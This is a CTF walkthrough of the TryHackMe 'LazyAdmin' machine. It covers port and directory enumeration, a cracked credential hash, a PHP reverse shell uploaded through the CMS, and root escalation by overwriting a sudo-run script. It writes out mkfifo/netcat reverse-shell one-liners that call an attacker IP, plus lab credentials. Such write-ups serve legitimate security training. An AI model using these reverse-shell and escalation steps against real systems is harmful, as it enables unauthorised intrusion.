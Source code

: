 ### LazyAdmin


####  Lazy Admin

What is the user flag?
- THM{63e5bce9271952aad1113b6f1ac28a07}


What is the root flag?


Enumeration:

Nmap scan:

Ports 22 and 80 are open:

```
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/LazyAdmin]
└─$ nmap -sC -sV -oN nmap_results.txt 10.10.35.168 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-19 22:01 EDT
Nmap scan report for 10.10.35.168
Host is up (0.64s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.38 seconds
                                                                                                                       
┌──(kali㉿kali)-[~/ken/MoonShine/CTF/LazyAdmin]
└─$ 

```


Gobuster scan:

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u "http://10.10.35.168:80" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o /home/kali/ken/MoonShine/CTF/LazyAdmin/gobuster_scan.txt -t 64 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.35.168:80
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/19 22:02:22 Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 314] [--> http://10.10.35.168/content/]
Progress: 935 / 220561 (0.42%)                                                   ^C
[!] Keyboard interrupt detected, terminating.
                                                                                  
===============================================================
2022/08/19 22:02:38 Finished
===============================================================
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 

```

Going to /content page, we can see that there is a maintenance page, so we enumerate the /content page further using gobuster:


```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u "http://10.10.35.168/content" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o /home/kali/ken/MoonShine/CTF/LazyAdmin/gobuster_scan2.txt -t 64
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.35.168/content
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/19 22:05:02 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> http://10.10.35.168/content/images/]
/js                   (Status: 301) [Size: 317] [--> http://10.10.35.168/content/js/]    
/inc                  (Status: 301) [Size: 318] [--> http://10.10.35.168/content/inc/]   
/as                   (Status: 301) [Size: 317] [--> http://10.10.35.168/content/as/]    
/_themes              (Status: 301) [Size: 322] [--> http://10.10.35.168/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.35.168/content/attachment/]
Progress: 7455 / 220561 (3.38%)                                                             ^C
[!] Keyboard interrupt detected, terminating.
                                                                                             
===============================================================
2022/08/19 22:06:28 Finished
===============================================================
                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ 

```

Using trial and error, we go to every pages, looking for possible attack vectors and low hanging fruit:

![[Pasted image 20220819220737.png]]

Looking further, we see that there is a mysql_backup folder and we will try to open the file:

![[Pasted image 20220819220836.png]]


Opening up the file, we can see that there are lying credentials on the file:

username: manager
password: hashed pw


![[Pasted image 20220819220959.png]]

Lets use crackstation to check the hash and hopefully we can get a plaintext password:

![[Pasted image 20220819221123.png]]

Password: Password123

Using those credentials, we can now login to 10.10.35.168/content/as/

![[Pasted image 20220819221220.png]]

After that, we can explore the website and found an ads page where we can advertise (keyword, advertise!) your code:

![[Pasted image 20220819221307.png]]

We can then craft a php reverse shell like so:

![[Pasted image 20220819221346.png]]

and upload it to the ads page:

![[Pasted image 20220819221442.png]]

We can now look for the reverse_shell.php code on the ip:80/content/inc and under ads, we can click our file:


![[Pasted image 20220819221556.png]]
![[Pasted image 20220819221608.png]]

Setup a netcat listener using port 1234, then stabilize the shell, the capture the first flag:


```

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234                         
listening on [any] 1234 ...
connect to [10.4.73.167] from (UNKNOWN) [10.10.35.168] 60604
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 05:17:07 up 18 min,  0 users,  load average: 0.00, 0.05, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ export TERM=xterm
export TERM=xterm
www-data@THM-Chal:/$ ^Z
zsh: suspended  nc -lnvp 1234
                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 1234

www-data@THM-Chal:/$ whoami
www-data
www-data@THM-Chal:/$ ls
bin    dev   initrd.img      lost+found  opt   run   srv  usr      vmlinuz.old
boot   etc   initrd.img.old  media       proc  sbin  sys  var
cdrom  home  lib             mnt         root  snap  tmp  vmlinuz
www-data@THM-Chal:/$ cd home && ls
itguy
www-data@THM-Chal:/home$ cd itguy && ls
Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
Documents  Music      Public    Videos     examples.desktop  user.txt
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
www-data@THM-Chal:/home/itguy$ 


```

To proceed with privilege escalation, we can check for sudo privileges first using sudo -l:

```
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$ 

```

There, we can see that backup.pl can run on sudo privileges. Then opening up backup.pl, we can see that it is running on /etc/copy.sh:

```
www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
www-data@THM-Chal:/home/itguy$ 

```

cat into copy.sh we can see the following code:

```
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
www-data@THM-Chal:/home/itguy$ 

```

Since there is a reverse_shell setup already, we can just edit the IP and port, and echo to copy.sh (since we cannot use vim or nano, no privileges)

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.73.167 5554 >/tmp/f" > /etc/copy.sh

```


admin: manager
passwd : 42f749ade7f9e195bf475f37a44cafcb | Password123


rice:randompass


echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.73.167 5555 >/tmp/f" > /etc/copy.sh